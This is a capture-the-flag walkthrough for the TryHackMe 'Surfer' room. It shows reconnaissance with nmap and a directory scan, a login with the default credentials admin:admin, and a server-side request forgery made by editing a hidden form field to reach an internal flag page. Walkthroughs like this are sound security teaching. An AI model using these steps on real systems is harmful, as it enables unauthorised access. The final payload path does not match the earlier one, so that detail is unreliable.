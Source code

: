 # Surfer Walkthrough
<br/>

## Intro
Welcome into the surfer room, here is the link of the [challenge](https://tryhackme.com/r/room/surfer) on TryHackMe.
In this CTF we are gonna explore one of the many possible roads to exploit a vulnerable web-application.

"*Woah, check out this radical app! Isn't it narly dude? We've been surfing through some webpages and we want to get you on board too! They said this application has some functionality that is only available for internal usage -- but if you catch the right wave, you can probably find the sweet stuff!*"

Whenever you feel ready press "start machine" and connect via OpenVPN or use the AttackBox

<br/>
<br/>

## The Challenge
Let's add the IP to the hosts file for commodity:
```bash
echo "MACHINE-IP surfer.thm" | sudo tee -a /etc/hosts
```
(sobsitute with the actual machine IP address)

We already know that we are gonna deal with a web-app vulnerability so we can guess that it is accessible on the default port 80, but to be sure we can do a quick *nmap* scan:
```bash
nmap -sV surfer.thm
```

Yes we got the confirmation we needed, we can do some directory scan to locate any interesting accessible webpages:
```bash
dirseach -u http://surfer.thm
```

We have many pages but let's begin with "robots.txt" which contains a list of webpages that should not be indexed:
```
http://surfer.thm/robots.txt
```

We find one interesting file:
```
Disallow: /backup/chat.txt

```

Let's view the content by navigating to:
```
http://surfer.thm/backup/chat.txt
```

```
Admin: I have finished setting up the new export2pdf tool.
Kate: Thanks, we will require daily system reports in pdf format.
Admin: Yes, I am updated about that.
Kate: Have you finished adding the internal server.
Admin: Yes, it should be serving flag from now.
Kate: Also Don't forget to change the creds, plz stop using your username as password.
Kate: Hello.. ?
```

Looks like the admin is using some default credentials and have not changed the password yet, whith this information we can go to the login page and access the dashboard: `http://surfer.thm/login.php`.
Logi in with the credentials `admin:admin`

inside the dashboard, on the right side, we see a message:
*Internal pages hosted at `/internal/admin.php`. It contains the system flag.*

But if we try to go to that location we get access-nagated.

Another thing to look at is that at the bottom of the page there is a button which will print a pdf file containing some information.
Since there are not other elements we can interact with in the page, let's inspect that element or view the page source:

Inspect the "Export PDF" button, this line of code looks interesting
```html
<input type="hidden" id="url" name="url" value="http://127.0.0.1/server-info.php">

```

The `value` field contains a call to a and internal (127.0.0.1 which is localhost) php file.
Maybe we can change that value and get printed the flag rather than the server info:

In fact if we change it to:
```html
<input type="hidden" id="url" name="url" value="http://127.0.0.1/internal/.php">
```

And then click to the button it will print us the PDF file with inside the flag!
This was a quick and easy example of Server Side Request Forgery, in which we are manipulating request to apper like an internal server is contacting another internal resource, this way we can bypass the filter that did not allow us to view the page because we are not part of the internal network.

<br/>
<br/>

Congratulations, you have succesfully found the flag and practiced with the exploitation of SSRF in a web-application, hope you had fun doing it and following along.

Catch you in the next CTF 😃 
